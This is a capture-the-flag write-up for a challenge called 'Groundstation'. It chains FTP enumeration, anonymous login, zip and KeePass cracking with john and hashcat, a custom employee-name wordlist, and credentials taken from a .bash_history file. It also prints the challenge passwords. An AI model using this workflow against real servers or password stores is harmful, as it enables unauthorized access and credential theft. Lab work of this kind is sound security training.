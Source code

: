 #  Groundstation

We are given hosts and ports of some virtual machines. Port 2121 is used by FTP.

## Official solution

We see that an ftp server is exposed on port `2121`:

```shell
nmap -sV [IP] -p2121 -Pn
```
Anonymous login is enabled, so we can just use `anonymous` as the username.

```shell
ftp anonymous@[IP] 2121
```

let's see what's in there:

```shell
ls
cd fancyMail
ls
cd daily
ls
cd attachments
ls
```

The zip file looks interesting, so we can download it:

```shell
recv attachment_2025-03-18_120008.zip
```

The file is password protected, we can try cracking it with john the ripper:

```shell
zip2john attachment_2025-03-18_120008.zip > zip.hash
john  --wordlist=rockyou.txt zip.hash
```

The password turns out to be `lovealfred`. 

We see a badge with a QR code inside the zip: that QR code is the ftp password for the `hr` user: `Hum4nR3s2025!#`.


Let's login with `hr` and see what we can find:

```shell
ftp hr@[IP] 2121
ls
recv employees_2025.xlsx
ls ESAP_ASAP
recv esap_sso_change_request.xlsx
```

The `esap_sso_change_request.xslx` file contains some hashes and some other info. 
Two of those ashes are easily crackable, but they turn out to be useless. The others do not crack with rockyou (from previous challenges). 

Let's see if we can leverage the information we have to create a new wordlist to use against the hashes that we could not crack.

We can take the contents of `employees_2025.xlsx` and create a `employees_wordlist.txt` file that we can mutate to make such a list. 

Here's the result with no repetitions:

    alex.wang
    alex.wang@groundstation.gov
    amelia.clarke
    amelia.clarke@groundstation.gov
    David Thompson
    david.thompson
    david.thompson@groundstation.gov
    Director of Research
    Dr. Alex Wang
    Dr. Amelia Clarke
    Dr. Emily Rodriguez
    Dr. Isabella Smith
    Dr. Lucas Johnson
    Dr. Marcus Nguyen
    Dr. Ryan Patel
    Dr. Sophia Lee
    Emily Brown
    emily.brown
    emily.brown@groundstation.gov
    emily.rodriguez
    emily.rodriguez@groundstation.gov
    Frank Smith
    frank.smith
    frank.smith@groundstation.gov
    Helpdesk
    Helpdesk Manager
    Helpdesk Operator
    HR
    HR Assistant
    HR Coordinator
    HR Manager
    HR Specialist
    isabella.smith
    isabella.smith@groundstation.gov
    Jennifer Wilson
    jennifer.wilson
    jennifer.wilson@groundstation.gov
    Jessica Miller
    jessica.miller
    jessica.miller@groundstation.gov
    John Wilson
    john.wilson
    john.wilson@groundstation.gov
    Kevin Lee
    kevin.lee
    kevin.lee@groundstation.gov
    lucas.johnson
    lucas.johnson@groundstation.gov
    marcus.nguyen
    marcus.nguyen@groundstation.gov
    Michael Davis
    michael.davis
    michael.davis@groundstation.gov
    Research
    Research Assistant
    Researcher
    ryan.patel
    ryan.patel@groundstation.gov
    Samantha Harris
    samantha.harris
    samantha.harris@groundstation.gov
    Sarah Johnson
    sarah.johnson
    sarah.johnson@groundstation.gov
    Security
    Security Manager
    Security Officer
    Senior Researcher
    sophia.lee
    sophia.lee@groundstation.gov



We can try cracking the two hashes now. Let's see what happens with `8da2f9fc1ac55bbf0baa2ee128bd904e2d8f86df`:

```shell
hashcat -a 0 -m 100 8da2f9fc1ac55bbf0baa2ee128bd904e2d8f86df employees_wordlist.txt -r rules/best64.rule
```

Found the password for the `security` user: `david.thompson88`. Let's login and pillage.

```shell
ftp security@[IP] 2121
```

No files seem interesting. Let's look for hidden files by using `ls -a`:

```shell
ls -a
cd sys_dumps_daily
ls -a
cd helpdesk
ls -a
recv .bash_history
```

Oh nice now we have the credentials for the `helpdesk`: `H3lpd3skH3ro3s123!`.

```shell
ftp helpdesk@[IP] 2121
ls
recv default.kdbx
```

it's a keepass file. we can extract its hash with `keepass2john`:

```shell
keepass2john default.kdbx > keepass.hash
```

let's remove the `default:` prefix in the hash file and then we can crack it with hashcat:

```shell
hashcat -a 0 -m 13400 -o cracked_output.txt --outfile-format 2 keepass rockyou.txt
```

The password is `qwertyuiop123`. we can now open the file with keepass, where we can find the `research:ScienceGeekSquad#2025!` credentials. 

Now:

```shell
ftp research@[IP] 2121
ls
recv portal.txt
```

`portal.txt` will contain the flag.